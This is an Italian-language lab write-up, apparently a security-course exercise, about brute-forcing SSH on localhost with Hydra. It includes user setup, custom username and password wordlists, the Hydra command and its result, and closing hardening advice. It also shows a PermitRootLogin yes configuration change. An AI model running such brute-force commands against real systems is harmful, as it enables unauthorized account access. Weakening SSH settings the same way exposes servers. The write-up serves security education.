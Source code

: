 # Progetto S6/L5: Brute Force SSH con Hydra

## **Obiettivo dell'Esercizio**

L'obiettivo dell'esercizio è stato duplice:
1. Fare pratica con lo strumento **Hydra** per effettuare un attacco di brute force sull'autenticazione SSH.
2. Configurare un servizio SSH, consolidando la conoscenza di gestione e protezione dei servizi di rete.

---

## **Passaggi Seguiti**

### **1. Configurazione del Servizio SSH**

1. **Creazione dell'utente per il test**:
   ```bash
   sudo adduser test_user
   ```
   - Nome utente: `test_user`
   - Password: `testpass`

2. **Attivazione del servizio SSH**:
   ```bash
   sudo service ssh start
   ```

3. **Modifica del file di configurazione SSH** (opzionale):
   - Per permettere configurazioni avanzate, abbiamo modificato `/etc/ssh/sshd_config`:
     ```bash
     sudo nano /etc/ssh/sshd_config
     ```
     - Esempio di modifica: 
       ```
       PermitRootLogin yes
       MaxStartups 10:30:60
       ```
   - Riavvio del servizio SSH:
     ```bash
     sudo service ssh restart
     ```

4. **Verifica del servizio SSH**:
   - Recupero dell'indirizzo IP:
     ```bash
     ifconfig
     ```
   - Test della connessione:
     ```bash
     ssh test_user@127.0.0.1
     ```

### **2. Creazione delle Wordlist Personalizzate**

Abbiamo creato due file di wordlist per simulare un attacco mirato:

- **Wordlist delle password**:
  ```bash
  echo -e "password\n123456\nadmin123\ntestpass\nqwerty\nletmein\npassword1\nwelcome\n12345678\nchangeme\nroot123\ntoor\niloveyou\nsecurepass\npassword123" > passwords.txt
  ```

- **Wordlist dei nomi utente**:
  ```bash
  echo -e "test_user\nadmin\nroot\nuser1\nguest\noperator\nsupport\nmanager\ndeveloper\nservice\nbackup\ntester\naccount\nsuperuser\nsysadmin" > usernames.txt
  ```

### **3. Utilizzo di Hydra per il Brute Force**

Abbiamo utilizzato **Hydra** per effettuare il brute force sul servizio SSH:

1. **Comando per Hydra**:
   ```bash
   hydra -L usernames.txt -P passwords.txt 127.0.0.1 -t 1 ssh
   ```
   - `-L usernames.txt`: Specifica il file delle wordlist per i nomi utente.
   - `-P passwords.txt`: Specifica il file delle wordlist per le password.
   - `127.0.0.1`: Indica il server SSH (localhost).
   - `-t 1`: Esegue un thread alla volta per evitare errori di connessione.

2. **Risultato**:
   - Hydra ha identificato con successo la combinazione:
     - Nome utente: `test_user`
     - Password: `testpass`
	 
![SSHcredfound](./SSHcredfound.png)

### **4. Risoluzione degli Errori Riscontrati**

Durante il test iniziale con wordlist più grandi, abbiamo riscontrato errori dovuti a:
- **Troppi tentativi simultanei**: Risolto riducendo i thread con `-t 1`.
- **Protezione del server SSH contro brute force**: Modificato il file di configurazione con `MaxStartups`.

---

## **Conclusioni e Considerazioni**

L'esercizio ha dimostrato:
1. L'efficacia degli attacchi brute force con dizionari mirati.
2. La necessità di proteggere i servizi di rete configurando correttamente il file di configurazione e implementando sistemi di rilevamento come `fail2ban`.

### **Miglioramenti Suggeriti per la Sicurezza**
- **Usare chiavi SSH** invece delle password.
- **Limitare i tentativi di login** e disabilitare utenti inutilizzati.
- **Configurare fail2ban** per bloccare tentativi ripetuti.

---

## **File Utilizzati**

- `usernames.txt`: Wordlist per i nomi utente.
- `passwords.txt`: Wordlist per le password.

Questi file sono inclusi nella directory del progetto per eventuali test futuri.

---

## **Comandi Chiave Riassunti**

1. Creazione dell'utente:
   ```bash
   sudo adduser test_user
   ```

2. Attivazione del servizio SSH:
   ```bash
   sudo service ssh start
   ```

3. Esecuzione di Hydra:
   ```bash
   hydra -L usernames.txt -P passwords.txt 127.0.0.1 -t 1 ssh
   
